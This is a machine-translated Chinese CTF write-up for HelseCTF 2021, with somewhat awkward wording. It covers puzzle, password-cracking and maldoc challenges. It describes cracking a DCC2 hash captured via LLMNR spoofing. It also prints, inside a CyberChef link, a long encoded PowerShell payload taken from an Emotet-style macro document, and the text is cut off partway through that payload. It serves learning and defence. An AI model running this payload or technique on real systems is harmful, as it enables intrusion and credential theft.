# HelseCTF 2021——报道

> 原文：<https://infosecwriteups.com/helsectf-2021-write-up-35d95b7515f7?source=collection_archive---------1----------------------->

## 与挪威医疗保健行业的信息安全部门一起捕捉旗帜—复活节版


由 [starline](https://www.freepik.com/free-vector/happy-easter-flat-style-card-with-rabbit-grass_7186111.htm#page=1&query=easter&position=14) 和 [freepik](https://www.freepik.com/premium-vector/sky-wallpaper-video-conferencing_9543587.htm#position=16) 设计的复活节 ctf 封面照片

T4:这是一个相当大的竞争。他们有 6 个不同的类别，总共 38 个不同的任务。复活节本来就够短的了，所以我优先考虑那些有趣的和我不熟悉的任务。

这场比赛是由挪威公司 helseCERT 发起的，该公司致力于防止公共卫生领域的网络攻击。

总而言之，每个人都有自己的事情，也有大量学习新事物的机会。这篇文章是按照与它们下面的任务相竞争的类别来组织的。

# 混合

不属于其他类别的不同挑战。内容多样，有很好的学习时刻。

## 帕斯凯格

```
Påskeegg kommer i flere former, farger og mønstre. Her er det likevel ett egg som ser mer interessant ut enn de andre.
```



来自 index.html 帕斯基格的屏幕截图-作者

这很有趣。你得到一个 index.html 的源代码，打开这个 html 文件，你会看到 4 个复活节彩蛋。你可以清楚地看到其中一个侧面有国旗图案。

所以首先我们要找到鸡蛋的密码。然后我们把所有不需要的蛋都拿走。对我们来说，我们只需要三号蛋。然后我们改变鸡蛋旋转的角度，直到我们可以阅读全文。



来自 index.html 帕斯基格的屏幕截图——作者

这就是**蛋{ROTASJONERKULT}**

## 末底改# 1–2–3:勒林、斯文和师父

这是一个原始的智多星难题，除了它是基于复活节。这些数字是鸡和野兔。它有三个难度。你尝试的次数越来越少，解决问题的时间也越来越少。



末底改的丝网印刷——作者

我在这里很懒，所以使用了其他人已经做好的代码，并以此任务为基础。Netcat 脚本摘自[这里的](https://gist.github.com/leonjza/f35a7252babdf77c8421)和摄魂师出自[这一页。](https://github.com/Michael0x2a/mastermind-solver/blob/master/python/solve_mastermind.py)

运行这个脚本，你会得到以下三个文本，每个文本包含一个标志。

**徒弟回答:**

```
en l\xc3\xa6rling fortjener et flagg: **EGG{M4S73rMInd_3r_f1n_hj3rn37r1m}**\r\nKanskje du vil pr\xc3\xb8ve noe litt vanskeligere?\r\n\r\nEn svenn b\xc3\xb8r kunne greie dette p\xc3\xa5 litt kortere tid!\r\nDu f\xc3\xa5r 9 fors\xc3\xb8k og 45 sekunder p\xc3\xa5 \xc3\xa5 tippe riktig kode.
```

**斯文回答:**

```
en svenn fortjener et flagg: **EGG{4u70m47153r7_M4S73rMInd}**\r\nKanskje du vil pr\xc3\xb8ve noe litt vanskeligere?\r\n\r\nEn ekte kodeknekker bruker ikke lang tid eller mange fors\xc3\xb8k!\r\nDu f\xc3\xa5r 5 fors\xc3\xb8k og 15 sekunder p\xc3\xa5 \xc3\xa5 tippe riktig kode.
```

**高手回答:**

```
en kodeknekker fortjener et flagg: **EGG{I_1977_l05t3_Don4ld_Knu7h_M4S73rMInd_m3d_m4x_FEM_fors0k}**
```

## 凯灵杰恩

```
En påskekylling er påkjørt under kryssing av glatt vintervei og har omkommet! :-( Denne påskekyllingen var det eneste vesenet i hele verden som huska det ene EGGet. EGGet var ti tegn, og hvis du viste kyllingen en plakat med tallet 0, tegna den første tegn i EGGet. Viste du tallet 1, tegna den andre tegn i EGGet, osv.Kyllingen kommer ikke tilbake, men kanskje finnnes det håp for EGGet? En analytiker har tatt vare på kyllinghjernen og ekstrahert og digitalisert et fungerende nevralnett fra deler av den. Nevralnettet ligger i filen chicken.h5. De har også digitalisert noen tallplakater som kyllingen ble trent opp med. Disse ligger i filen input.txt.For å lese inn input.txt til et nevralnettvennlig format kommer analytikeren med følgende oneliner i Python:**with** open("input.txt") **as** f: inputs = [[list([(ch=='X')-0.5] **for** ch **in** f.readline()[:28]) **for** b **in** range(28)] **for** i **in** range(10)]Kan du utføre kyllingens siste ønske og levere EGGet?
```

我们在这里得到了两个文件:T1 和 python 脚本的开始。他们制造了一个可以根据输入来绘制图像的人工智能，但是它崩溃了。他们唯一剩下的就是大脑，我们需要对它进行再造。我们将 h5 文件加载到我们的 python 脚本中，并将输入发送到大脑，观察神奇的事情发生。



鸡脑——作者

然后你就有了: **EGG{AI+NN}**

# 秘密党员

有 8 个基于密码破解的挑战。

## 密码

```
En passordhash av typen MSCACHEv2/DCC2 er snappet opp gjennom LLMNR-spoofing. Hashcat har støtte for å knekke denne typen passordhasher, men det går fryktelig treigt.Hash som skal knekkes:$DCC2$10240#kylling#9eb4ad793886bb81bb24daf3cf90ba4eFra før av har man sett at brukeren har brukt følgende passord på andre tjenester, og kan kanskje ane et visst mønster:Sommer1A0f0k(0
Sommer4B1g1k)0
Sommer7H1h0k(1
Sommer2E0f0k)1
Vinter9Z1h1k(1
Sommer0E0f0k)1
Sommer2J1h0k(0
Sommer7K1f0k(1
Vinter3N0h1k(0
Sommer8M1g1k)1
Vinter2D0g0k)0
Sommer4Q1f1k(1
Vinter6D0h1k)0Klarer du å finne passordet?Lever EGG{<passord>}
```

他们在 MSCACHEv2/DCC2 中给了我们一个散列，还包括一些旧密码。通过查看旧密码，我们可以看到它们是由七个块组成的。所以我们需要做的就是创建一个程序来测试所有不同的组合。

过了一会儿，程序给了我们正确的密码: **EGG{Sommer3Q0g1k(1}**

# 马尔多克

有 3 个基于宏恶意软件的挑战。

## Emotetemulatoren

```
Skadelige vedlegg benytter i all hovedsak enten exploits, eller makroer for å få kjørt payloaden sin. Det vanligste her er makroer da disse offisielt er en “feature”, ikke en sårbarhet. For å få kjørt makroen kreves det at bruker godtar kjøring av makroer, og dokumentene har som regel noen social-engineeringtriks for å lure brukeren til å gjøre dette. F.eks. dokumenttittel som “lønnsjustering”, eller et bilde inni om at makroer må aktiveres for at innholdet skal vises riktig.
```



Maldoc 的屏幕打印—作者

首先，我打开文档，找到宏，然后调试运行它。我搜索创造的价值，因为这是最有可能在电脑上创造某种实体的方式。



调试创建示例—按作者

再深入一点，我发现这个宏将值存储在:zcvbRNznR 中，所以我将它打印出来并得到一个到 PowerShell 的编码比特流。


宏调试的输出—按作者

然后，我使用我最喜欢的编辑器 [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)Decode_text('Europa%203%20(29001)')&input=SkFCSUFGVUFSUUEyQUVVQVJnQXpBSEVBU2dBZ0FEMEFJQUFrQUd3QWJ3QlBBRE1BTlFBZ0FDc0FJQUFrQUZnQVFRQTJBRXNBVXdCTUFHWUFjd0E3QUNRQVJ3QTRBRE1BYmdCaUFIUUFOUUExQUhVQUlBQTlBQ0FBS0FBbkFDY0FLd0FuQURnQVpBQW5BQ3NBSndCdkFHWUFKd0FyQUNjQWFBQTRBR1FBYndCbUFDY0FLd0FuQUdnQU9BQmtBQ2NBS3dBbkFHOEFaZ0JvQURnQUp3QXBBQzRBVWdCRkFGQUFUQUJoQUVNQVJRQW9BQ0lBWkFCdkFHWUFhQUFpQUN3QUlnQXVBQ0lBS1FBdUFISUFaUUJRQUd3QVFRQmpBRVVBS0FCYkFITUFkQUJ5QUVrQWJnQkhBRjBBV3dCakFFZ0FZUUJTQUYwQU5nQXhBQ3dBSWdCbEFGWUFhUUJzQUM0QVF3QnZBRzBBSWdBcEFEc0FKQUJNQURJQU1nQjZBREFBUkFBZ0FEMEFJQUFrQUdRQWJRQlFBRFVBZFFCaUFFRUFTQUJIQUNBQUt3QWdBQ1FBWlFCRkFETUFRd0E1QUdzQVdBQnJBRHNBSkFCSUFFOEFWZ0E1QUhBQVF3QmFBRFlBSUFBOUFDQUFKQUJtQUc4QWR3QmpBSElBV0FCSEFIVUFJQUFyQUNBQUpBQjNBRWdBVkFCUEFIZ0FPd0J6QUZZQUlBQWdBQ2dBSndCdEFDY0FLd0FuQUUwQVpnQmpBQ2NBS3dBbkFGTUFXZ0I1QUNjQUt3QW5BRGtBVkFBekFDY0FLUUFnQUNnQVd3QjBBSGtBVUFCbEFGMEFLQUFpQUhzQU5BQjlBSHNBTWdCOUFIc0FNUUI5QUhzQU1BQjlBSHNBTXdCOUFDSUFJQUF0QUdZQUlBQW5BR01BVkFCdkFDY0FMQUFuQUU4QUxnQkVBRWtBY2dCbEFDY0FMQUFuQUVVQWJRQXVBRWtBSndBc0FDY0FVZ0I1QUNjQUxBQW5BRk1BZVFCekFGUUFKd0FwQUNrQU93QWtBSFlBYVFCNkFIWUFSd0IyQUhZQUlBQTlBQ0FBSkFCb0FHOEFNQUJIQUZBQVVnQjRBR0VBYWdBZ0FDc0FJQUFrQUhRQVdRQTNBRFVBY2dBN0FDUUFVd0F5QUhnQU53QkVBRmtBZGdBNUFGRUFJQUE5QUNBQUtBQW5BR2dBZEFCMEFDY0FLd0FuQUhBQWN3QW5BQ3NBS0FBbkFHZ0FNUUJ5QUNrQUtBQnJBRzhBYkFBbkFDa0FLd0FuQUNjQUt3QW5BRG9BYwpRQmZBSGdBUFFCeEFDY0FLd0FuQUhFQVh3QjRBRDBBY1FCb0FHVUFKd0FyQUNnQUp3QW5BQ3NBSndCb0FERUFjZ0FwQUNnQUp3QXJBQ2NBYXdCdkFHd0FKd0FwQUNzQUp3QW5BQ3NBSndCc0FITUFKd0FyQUNnQUp3Qm9BREVBY2dBcEFDZ0Fhd0J2QUd3QUp3QXBBQ3NBSndCbEFDY0FLd0FuQUdNQWRBQm1BQ2NBS3dBbkFDNEFiZ0J2QUNjQUt3QW9BQ2NBSndBckFDY0FhQUF4QUhJQUtRQW9BQ2NBS3dBbkFHc0Fid0JzQUNjQUtRQXJBQ2NBY1FCZkFIZ0FQUUJ4QUdJQUp3QXJBQ2NBYVFCc0FHUUFKd0FyQUNnQUp3Qm9BQ2NBS3dBbkFERUFjZ0FwQUNnQWF3QW5BQ3NBSndCdkFHd0FKd0FwQUNzQUp3QmxBSElBY1FCZkFIZ0FQUUJ4QURFQUp3QXJBQ2dBSndCb0FERUFjZ0FwQUNnQWF3QnZBR3dBSndBcEFDc0FKd0FuQUNzQUp3QmZBREVBSndBckFDZ0FKd0FuQUNzQUp3Qm9BREVBY2dBcEFDZ0FKd0FyQUNjQWF3QnZBR3dBSndBcEFDc0FKd0FuQUNzQUp3QTNBREVBTndBNEFHUUFaQUFuQUNzQUtBQW5BR2dBTVFCeUFDa0FLQUJyQUc4QWJBQW5BQ2tBS3dBbkFEY0FKd0FyQUNnQUp3Qm9BQ2NBS3dBbkFERUFjZ0FwQUNnQWF3QW5BQ3NBSndCdkFHd0FKd0FwQUNzQUp3QTFBQ2NBS3dBbkFEa0FaZ0JoQURJQVpRQW5BQ3NBS0FBbkFHZ0FKd0FyQUNjQU1RQnlBQ2tBS0FCckFHOEFiQUFuQUNrQUt3QW5BRGdBSndBckFDZ0FKd0JvQURFQWNnQXBBQ2dBYXdCdkFHd0FKd0FwQUNzQUp3QTVBRGNBSndBckFDZ0FKd0JvQUNjQUt3QW5BREVBY2dBcEFDZ0FKd0FyQUNjQWF3QnZBR3dBSndBcEFDc0FKd0FuQUNzQUp3QXdBR01BSndBckFDZ0FKd0JvQUNjQUt3QW5BREVBY2dBcEFDZ0Fhd0J2QUd3QUp3QXBBQ3NBSndBMUFDY0FLd0FuQURjQU13QW5BQ3NBSndCbUFHSUFKd0FyQUNnQUp3QW5BQ3NBSndCb0FERUFjZ0FwQUNnQWF3QnZBR3dBSndBcEFDc0FKd0FuQUNzQUp3QTVBR1VBTVFBbkFDc0FKd0E1QUdZQUp3QXJBQ2dBSndCb0FDY0FLd0FuQURFQWNnQXBBQ2dBYXdBbkFDc0FKd0J2QUd3QUp3QXBBQ3NBSndBbkFDc0EKSndCa0FEY0FKd0FyQUNjQU1RQXVBR29BSndBckFDZ0FKd0FuQUNzQUp3Qm9BREVBY2dBcEFDZ0FKd0FyQUNjQWF3QnZBR3dBSndBcEFDc0FKd0J3QUNjQUt3QW9BQ2NBYUFBeEFISUFLUUFvQUdzQUp3QXJBQ2NBYndCc0FDY0FLUUFyQUNjQVp3QW5BQ3NBSndCQUFHZ0FkQUFuQUNzQUtBQW5BR2dBTVFCeUFDa0FLQUJyQUc4QWJBQW5BQ2tBS3dBbkFIUUFKd0FyQUNjQWNBQnpBRG9BY1FCZkFIZ0FQUUJ4QUhFQVh3QjRBRDBBY1FBbkFDc0FLQUFuQUdnQU1RQnlBQ2tBS0FCckFHOEFiQUFuQUNrQUt3QW5BR2dBWlFCc0FDY0FLd0FuQUhNQVpRQmpBSFFBSndBckFDZ0FKd0FuQUNzQUp3Qm9BREVBY2dBcEFDZ0Fhd0J2QUd3QUp3QXBBQ3NBSndCbUFDY0FLd0FuQUM0QWJnQW5BQ3NBSndCdkFIRUFYd0I0QUQwQWNRQW5BQ3NBSndCaUFHa0FKd0FyQUNnQUp3Qm9BREVBY2dBcEFDZ0Fhd0J2QUd3QUp3QXBBQ3NBSndCc0FHUUFKd0FyQUNnQUp3Qm9BQ2NBS3dBbkFERUFjZ0FwQUNnQWF3QnZBR3dBSndBcEFDc0FKd0FuQUNzQUp3QmxBSElBY1FCZkFIZ0FQUUJ4QURJQUp3QXJBQ2dBSndCb0FERUFjZ0FwQUNnQWF3QnZBR3dBSndBcEFDc0FKd0JmQURVQUp3QXJBQ2NBT1FBMkFHSUFKd0FyQUNnQUp3Qm9BQ2NBS3dBbkFERUFjZ0FwQUNnQWF3QnZBR3dBSndBcEFDc0FKd0F6QUNjQUt3QW5BRElBWVFBd0FEZ0FKd0FyQUNjQU1RQXdBQ2NBS3dBb0FDY0FhQUF4QUhJQUtRQW9BR3NBYndCc0FDY0FLUUFyQUNjQU9BQTJBRElBWXdCakFDY0FLd0FvQUNjQWFBQXhBSElBS1FBb0FHc0Fid0JzQUNjQUtRQXJBQ2NBSndBckFDY0FaUUEzQUNjQUt3QW5BRE1BTmdBM0FDY0FLd0FvQUNjQWFBQXhBSElBS1FBb0FHc0FKd0FyQUNjQWJ3QnNBQ2NBS1FBckFDY0FNZ0F5QUNjQUt3QW5BRGtBT1FBeEFDY0FLd0FvQUNjQWFBQXhBSElBS1FBb0FHc0FKd0FyQUNjQWJ3QnNBQ2NBS1FBckFDY0FPUUFuQUNzQUp3QmlBRGtBSndBckFDY0FaZ0EyQUdZQUp3QXJBQ2dBSndCb0FERUFjZ0FwQUNnQWF3QW5BQ3NBSndCdkFHd0FKd0FwQUNzCkFKd0F1QUdvQUp3QXJBQ2NBY0FCbkFFQUFhQUFuQUNzQUtBQW5BR2dBTVFCeUFDa0FLQUJyQUc4QWJBQW5BQ2tBS3dBbkFIUUFkQUFuQUNzQUp3QndBSE1BT2dBbkFDc0FLQUFuQUdnQU1RQnlBQ2tBS0FCckFHOEFiQUFuQUNrQUt3QW5BQ2NBS3dBbkFIRUFYd0I0QUQwQWNRQnhBRjhBZUFBOUFIRUFhQUFuQUNzQUtBQW5BR2dBTVFCeUFDa0FLQUJyQUNjQUt3QW5BRzhBYkFBbkFDa0FLd0FuQUdVQWJBQW5BQ3NBS0FBbkFDY0FLd0FuQUdnQU1RQnlBQ2tBS0FBbkFDc0FKd0JyQUc4QWJBQW5BQ2tBS3dBbkFITUFaUUJqQUNjQUt3QW5BSFFBWmdBdUFHNEFKd0FyQUNnQUp3Qm9BQ2NBS3dBbkFERUFjZ0FwQUNnQWF3QnZBR3dBSndBcEFDc0FKd0J2QUhFQVh3QjRBRDBBY1FCaUFHa0FKd0FyQUNjQWJBQmtBR1VBSndBckFDZ0FKd0JvQUNjQUt3QW5BREVBY2dBcEFDZ0FKd0FyQUNjQWF3QnZBR3dBSndBcEFDc0FKd0FuQUNzQUp3QnlBSEVBWHdCNEFEMEFjUUF6QUNjQUt3QW5BRjhBTXdBeEFHWUFKd0FyQUNnQUp3Qm9BREVBY2dBcEFDZ0FKd0FyQUNjQWF3QnZBR3dBSndBcEFDc0FKd0EzQUdVQUp3QXJBQ2NBTndCbUFDY0FLd0FvQUNjQWFBQXhBSElBS1FBb0FDY0FLd0FuQUdzQWJ3QnNBQ2NBS1FBckFDY0FOd0FuQUNzQUtBQW5BR2dBTVFCeUFDa0FLQUFuQUNzQUp3QnJBRzhBYkFBbkFDa0FLd0FuQURFQU1nQm1BRFVBTUFBbkFDc0FLQUFuQUdnQU1RQnlBQ2tBS0FCckFHOEFiQUFuQUNrQUt3QW5BR1VBSndBckFDY0FNQUE0QURNQU5BQmpBQ2NBS3dBb0FDY0FhQUFuQUNzQUp3QXhBSElBS1FBb0FDY0FLd0FuQUdzQWJ3QnNBQ2NBS1FBckFDY0FPQUJtQURJQU13QTRBQ2NBS3dBb0FDY0FhQUF4QUhJQUtRQW9BR3NBSndBckFDY0Fid0JzQUNjQUtRQXJBQ2NBWXdBd0FEa0FKd0FyQUNjQVlnQmpBREVBSndBckFDZ0FKd0JvQURFQWNnQXBBQ2dBSndBckFDY0Fhd0J2QUd3QUp3QXBBQ3NBSndCaEFHVUFMZ0FuQUNzQUp3QnFBSEFBSndBckFDY0Fad0JBQUNjQUt3QW9BQ2NBYUFBeEFISUFLUUFvQUdzQWJ3QnNBQwpjQUtRQXJBQ2NBYUFBbkFDc0FKd0IwQUhRQUp3QXJBQ2dBSndCb0FERUFjZ0FwQUNnQWF3QW5BQ3NBSndCdkFHd0FKd0FwQUNzQUp3QndBQ2NBS3dBbkFITUFPZ0J4QUY4QWVBQTlBSEVBY1FCZkFIZ0FQUUJ4QUdnQUp3QXJBQ2dBSndCb0FERUFjZ0FwQUNnQWF3QW5BQ3NBSndCdkFHd0FKd0FwQUNzQUp3QmxBQ2NBS3dBb0FDY0FKd0FyQUNjQWFBQXhBSElBS1FBb0FHc0Fid0JzQUNjQUtRQXJBQ2NBSndBckFDY0FiQUJ6QUdVQUp3QXJBQ2NBWXdCMEFHWUFMZ0FuQUNzQUtBQW5BR2dBTVFCeUFDa0FLQUJyQUc4QWJBQW5BQ2tBS3dBbkFHNEFid0FuQUNzQUtBQW5BR2dBTVFCeUFDa0FLQUJyQUc4QWJBQW5BQ2tBS3dBbkFDY0FLd0FuQUhFQVh3QjRBRDBBY1FCaUFHa0FKd0FyQUNjQWJBQmtBQ2NBS3dBb0FDY0FhQUF4QUhJQUtRQW9BR3NBSndBckFDY0Fid0JzQUNjQUtRQXJBQ2NBWlFBbkFDc0FLQUFuQUdnQU1RQnlBQ2tBS0FCckFDY0FLd0FuQUc4QWJBQW5BQ2tBS3dBbkFDY0FLd0FuQUhJQWNRQmZBSGdBUFFCeEFEUUFKd0FyQUNjQVh3QTNBR1VBTXdBbkFDc0FLQUFuQUNjQUt3QW5BR2dBTVFCeUFDa0FLQUJyQUc4QWJBQW5BQ2tBS3dBbkFHVUFKd0FyQUNjQU1RQmhBR0VBTWdBbkFDc0FLQUFuQUdnQUp3QXJBQ2NBTVFCeUFDa0FLQUFuQUNzQUp3QnJBRzhBYkFBbkFDa0FLd0FuQUNjQUt3QW5BR01BTkFCaUFDY0FLd0FvQUNjQWFBQW5BQ3NBSndBeEFISUFLUUFvQUNjQUt3QW5BR3NBYndCc0FDY0FLUUFyQUNjQU1nQW5BQ3NBS0FBbkFDY0FLd0FuQUdnQU1RQnlBQ2tBS0FCckFHOEFiQUFuQUNrQUt3QW5BQ2NBS3dBbkFESUFNZ0JoQUNjQUt3QW5BREVBTkFBbkFDc0FLQUFuQUdnQU1RQnlBQ2tBS0FCckFHOEFiQUFuQUNrQUt3QW5BQ2NBS3dBbkFETUFZUUJrQURNQU5BQW5BQ3NBS0FBbkFDY0FLd0FuQUdnQU1RQnlBQ2tBS0FBbkFDc0FKd0JyQUc4QWJBQW5BQ2tBS3dBbkFESUFPUUFuQUNzQUp3QmpBRFFBSndBckFDY0FPQUEwQUNjQUt3QW9BQ2NBYUFBbkFDc0FKd0F4QUhJQUtRQW9BR3NBYndCc0EKQ2NBS1FBckFDY0FNZ0F6QURBQU5RQW5BQ3NBS0FBbkFDY0FLd0FuQUdnQU1RQnlBQ2tBS0FBbkFDc0FKd0JyQUc4QWJBQW5BQ2tBS3dBbkFDNEFKd0FyQUNjQWFnQndBR2NBUUFCb0FDY0FLd0FvQUNjQUp3QXJBQ2NBYUFBeEFISUFLUUFvQUNjQUt3QW5BR3NBYndCc0FDY0FLUUFyQUNjQWRBQjBBQ2NBS3dBbkFIQUFjd0FuQUNzQUp3QTZBSEVBWHdCNEFEMEFjUUFuQUNzQUtBQW5BR2dBSndBckFDY0FNUUJ5QUNrQUtBQnJBQ2NBS3dBbkFHOEFiQUFuQUNrQUt3QW5BSEVBWHdCNEFEMEFjUUFuQUNzQUp3Qm9BR1VBYkFCekFHVUFZd0FuQUNzQUtBQW5BR2dBTVFCeUFDa0FLQUJyQUc4QWJBQW5BQ2tBS3dBbkFDY0FLd0FuQUhRQVpnQXVBQ2NBS3dBbkFHNEFid0J4QUY4QWVBQTlBSEVBWWdBbkFDc0FLQUFuQUdnQU1RQnlBQ2tBS0FBbkFDc0FKd0JyQUc4QWJBQW5BQ2tBS3dBbkFHa0FiQUJrQUNjQUt3QW9BQ2NBYUFBeEFISUFLUUFvQUdzQUp3QXJBQ2NBYndCc0FDY0FLUUFyQUNjQUp3QXJBQ2NBWlFCeUFIRUFYd0I0QUQwQWNRQTFBRjhBSndBckFDZ0FKd0JvQURFQWNnQXBBQ2dBYXdCdkFHd0FKd0FwQUNzQUp3QW5BQ3NBSndBeUFEa0FKd0FyQUNnQUp3Qm9BQ2NBS3dBbkFERUFjZ0FwQUNnQWF3QnZBR3dBSndBcEFDc0FKd0EyQURNQUp3QXJBQ2NBT0FBeEFEVUFOQUFuQUNzQUtBQW5BR2dBTVFCeUFDa0FLQUJyQUNjQUt3QW5BRzhBYkFBbkFDa0FLd0FuQUdJQU9BQW5BQ3NBS0FBbkFHZ0FKd0FyQUNjQU1RQnlBQ2tBS0FBbkFDc0FKd0JyQUc4QWJBQW5BQ2tBS3dBbkFDY0FLd0FuQUdNQU1nQmlBRFFBSndBckFDY0FNd0EzQUdZQUp3QXJBQ2dBSndCb0FDY0FLd0FuQURFQWNnQXBBQ2dBYXdCdkFHd0FKd0FwQUNzQUp3QW5BQ3NBSndBMUFEa0FZd0FuQUNzQUtBQW5BR2dBSndBckFDY0FNUUJ5QUNrQUtBQnJBQ2NBS3dBbkFHOEFiQUFuQUNrQUt3QW5BREFBSndBckFDY0FNQUExQUNjQUt3QW9BQ2NBYUFBeEFISUFLUUFvQUdzQUp3QXJBQ2NBYndCc0FDY0FLUUFyQUNjQU13QTJBQ2NBS3dBb0FDY0FhQUF4CkFISUFLUUFvQUdzQUp3QXJBQ2NBYndCc0FDY0FLUUFyQUNjQU5BQmtBQ2NBS3dBbkFEQUFOd0FuQUNzQUp3QTJBR01BSndBckFDZ0FKd0JvQURFQWNnQXBBQ2dBYXdCdkFHd0FKd0FwQUNzQUp3QmpBQzRBSndBckFDY0FhZ0J3QUNjQUt3QW9BQ2NBYUFBeEFISUFLUUFvQUNjQUt3QW5BR3NBYndCc0FDY0FLUUFyQUNjQVp3QW5BQ2tBTGdBaUFGSUFZQUJGQUZBQVlBQnNBRUVBWUFCREFHVUFJZ0FvQUNjQWFBQXhBSElBS1FBb0FHc0Fid0JzQUNjQUxBQWtBSElBUlFCSkFIVUFRZ0JMQUU0QUtRQXRBRklBWlFCUUFFd0FRUUJqQUdVQUtBQW5BSEVBWHdCNEFEMEFjUUFuQUN3QVd3QnpBRlFBVWdCcEFHNEFad0JkQUZzQVF3Qm9BR0VBVWdCZEFEUUFOd0FwQURzQVV3QjJBQ0FBSUFBb0FDY0FZZ0JuQUc4QUp3QXJBQ2NBY1FCd0FGb0FKd0FwQUNBQUtBQmJBSFFBZVF